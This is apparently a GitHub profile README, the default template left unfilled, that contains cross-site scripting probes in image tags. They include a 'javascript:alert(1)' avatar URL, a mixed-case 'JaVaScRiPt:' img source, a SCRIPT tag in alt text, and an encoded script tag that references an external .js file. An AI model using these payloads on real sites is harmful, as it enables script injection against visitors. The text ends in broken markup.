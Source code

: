 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&javascript:alert(1);)
![
<img src="JaVaScRiPt:alert('XSS')" alt="<SCRIPT>alert()</SCRIPT>">
<IMG SRC= img/%3cscript+onload='https://r89shi.github.io/teste.js'%3e >

](()
